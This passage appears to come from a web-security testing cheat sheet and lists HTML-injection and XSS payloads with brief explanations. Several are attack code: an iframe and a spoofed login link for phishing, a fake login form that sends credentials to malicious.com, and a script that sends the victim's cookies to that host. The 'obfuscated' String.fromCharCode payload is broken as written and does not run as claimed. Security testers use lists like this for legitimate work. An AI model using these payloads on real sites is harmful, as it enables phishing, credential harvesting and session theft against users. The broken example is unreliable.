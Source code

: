 - **JavaScript Alert Payloads (XSS Escalation):** If this payload executes, you have not only discovered HTML Injection but also Cross-Site Scripting (XSS).

```html
<script>alert('Injected!');</script>       <!-- Executes a JavaScript alert -->
<img src="x" onerror="alert('Injected!')"> <!-- Triggers a JavaScript alert via onerror -->
```

- **Iframe Injection Payload (Phishing):** This payload injects an iframe into the page, which can be used for phishing by embedding malicious content from another site.

```html
<iframe src="http://malicious.com" width="400" height="400"></iframe>
```

- **Content Spoofing (Phishing):** This payload changes the content of the page to display a phishing message or other misleading information.

```
<div>
  <p>Your session has expired. Please <a href="http://attacker.com/login">login again</a>.</p>
</div>
```

- **Fake Form Injection Payload (Credential Harvesting):** This payload injects a fake login form that submits data to an attacker-controlled server. It can be used for credential harvesting in phishing attacks.

```html
<form action="http://malicious.com/login" method="POST">
    <input type="text" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <button type="submit">Login</button>
</form>
```

- **Obfuscated Script Injection (Bypassing Filters):** This payload uses `String.fromCharCode()` to obfuscate the JavaScript alert, making it more difficult for filters to detect.

```html
<script>String.fromCharCode(97,108,101,114,116)(document.cookie);</script>
```

- **HTML Comment Injection (UI Alteration):** Injecting comments or CSS can be used to manipulate the UI by hiding elements or changing the appearance of the page.

```html
<!-- <style>body {display: none}</style> -->
```

- **Embedded Script (XSS):** This payload injects a script tag to perform an XSS attack.

```
<div><script>alert('HTML Injection');</script></div>
```

- **Cookie Stealing Payload (XSS Escalation):** This payload sends the user’s cookies to an attacker-controlled server. If executed, it indicates the application is vulnerable to XSS, which is more severe than basic HTML Injection.

```html
<script>document.location="http://malicious.com/steal?cookie="+document.cookie;</script>
```
